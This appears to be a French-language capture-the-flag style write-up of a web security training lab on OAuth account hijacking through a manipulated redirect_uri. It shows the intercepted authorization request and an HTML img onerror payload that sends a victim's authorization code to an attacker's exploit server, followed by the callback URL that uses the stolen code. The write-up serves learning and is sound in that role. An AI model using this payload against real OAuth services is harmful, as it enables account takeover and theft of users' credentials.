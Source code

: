 # OAuth account hijacking via redirect_uri
```
 This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter. 
```

- Connexion au SSO avec l'identifiant donné dans la description

- Interception de la requête d'authentification au SSO :

```
GET /auth?client_id=mpti5olfiyjexjzmgwnef&redirect_uri=https://0a3100d6048483a882560b4100bf0071.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email
```

- On modifie l'argument `redirect_uri` afin qu'il pointe vers notre serveur d'exploitation

### Création payload à envoyer depuis le serveur d'exploit :

```html
<img src="xmco" onerror="document.location='https://oauth-0ab600e904a083158285096f020900ab.oauth-server.net/auth?client_id=mpti5olfiyjexjzmgwnef&redirect_uri=https://exploit-0a0f0044042183bd82d60a2a01a800ad.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email'"/>
```

- On récupère le code sur notre serveur d'exploitation et on l'utilise pour se connecter :

```
https://0a3100d6048483a882560b4100bf0071.web-security-academy.net/oauth-callback?code=-fgQrB0vxufMPtruLw23dOIPAE7Akva7lpF1tQIt-u5
```


> SOLVED : GG WP ! :) 